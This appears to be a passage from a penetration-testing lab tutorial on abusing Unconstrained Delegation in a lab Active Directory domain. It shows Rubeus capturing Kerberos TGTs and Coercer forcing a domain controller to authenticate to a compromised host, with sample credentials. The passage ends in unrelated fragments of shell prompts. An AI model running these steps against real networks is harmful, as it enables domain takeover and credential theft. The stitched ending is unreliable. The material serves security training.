 `WS001` and `SERVER01` are trusted for Unconstrained delegation (Domain Controllers are trusted by default). So either WS001 or Server01 would be a target for an adversary. In our scenario, we have already compromised WS001 and 'Bob', who has administrative rights on this host. We will start `Rubeus` in an administrative prompt to monitor for new logons and extract TGTs:
```PowerShell
PS C:\Users\bob\Downloads> .\Rubeus.exe monitor /interval:1

   ______        _
  (_____ \      | |
   _____) )_   _| |__  _____ _   _  ___
  |  __  /| | | |  _ \| ___ | | | |/___)
  | |  \ \| |_| | |_) ) ____| |_| |___ |
  |_|   |_|____/|____/|_____)____/(___/

  v2.0.1

[*] Action: TGT Monitoring
[*] Monitoring every 1 seconds for new TGTs


[*] 18/12/2022 22.37.09 UTC - Found new TGT:

  User                  :  bob@EAGLE.LOCAL
  StartTime             :  18/12/2022 23.30.09
  EndTime               :  19/12/2022 09.30.09
  RenewTill             :  25/12/2022 23.30.09
  Flags                 :  name_canonicalize, pre_authent, initial, renewable, forwardable
  Base64EncodedTicket   :

doIE2jCCBNagAwIBBaEDAgEWooID5zCCA+NhggPfMIID26ADAgEFoQ0bC0VBR0xFLkxPQ0FMoiAwHqADAgECoRcwFRsGa3JidGd0
GwtFQUdMRS5MT0NBTKOCA6EwggOdoAMCARKhAwIBAqKCA48EggOLxoWz+JE4JEP9VvNlDvGKzqQ1BjjpjjO03haKFPPeszM4Phkb    QQBPfixBqQ3bthdsizmx3hdjNzFVKnUOK2h2CDFPeUia+0rCn1FllimXQwdEFMri7whC2qA4/vy52Y2jJdmkR7ZIRAeU5Yfm373L
iEHgnX4PCA94Ck/BEwUY0bk6VAWkM2FSPgnuiCeQQ4yJMPa3DK6MHYJ/1kZy+VqxwSqov/tVhATshel1vXpr4rz03ofgNtwLDYb+    K5AGYSbSct5w1jTWtGAicCCr1vpcUguIWH0Nh1lQ+tZccVtEtsrjZ/jwCKsadQWIFwhPOnVpf5drUlav1iCXmxWqQr5glW/IOOE1
lHsBolieGSyY20ZHBYjXflCGkO13mRwqO3rQ5KMs8HrC3Aqu7Popaw29at0vzZLinYnWnHUn01hh5e3QyIkqIH3CBvaPbl3RukZ7    jZRBm6BVF7R5KEWp+6Gg2joP6WvXDBCIzqL3jmxQ8NVoeeidgnBuZKpYL45E8jJjxbW4t9D8EdlX9Xu+fj/Fazw08HtRkzwG30vE
	<SNIP>
	<SNIP>
	<SNIP>
	
[*] Ticket cache size: 4
```

Next, we need to know the IP address of WS001, which we can be obtain by running `ipconfig`. Once known, we will switch to the Kali machine to execute `Coercer` towards DC1, while we force it to connect to WS001 if coercing is successful:

```bash
jucapik42@htb[/htb]$ Coercer -u bob -p Slavi123 -d eagle.local -l ws001.eagle.local -t dc1.eagle.local

       ______
      / ____/___  ___  _____________  _____
     / /   / __ \/ _ \/ ___/ ___/ _ \/ ___/
    / /___/ /_/ /  __/ /  / /__/  __/ /      v1.6
    \____/\____/\___/_/   \___/\___/_/       by @podalirius_

[dc1.eagle.local] Analyzing available protocols on the remote machine and perform RPC calls to coerce authentication to ws001.eagle.local ...
   [>] Pipe '\PIPE\lsarpc' is accessible!
```

[dc1]: PS C:\Users\Administrator\Documents> hostname
[dc1]: PS C:\Users\Administrator\Documents> whoami
[dc1]: PS C:\Users\Administrator\Documents>
[PKI]: PS C:\Users\htb-student\Documents> Get-WINEvent -FilterHashtable @{Logname='Security'; ID='4886'}
[PKI]: PS C:\Users\htb-student\Documents> Get-WINEvent -FilterHashtable @{Logname='Security'; ID='4887'}
[pki]: PS C:\Users\htb-student\Documents> $events = Get-WinEvent -FilterHashtable @{Logname='Security'; ID='4886'}
[pki]: PS C:\Users\htb-student\Documents> $events[0] | Format-List -Property *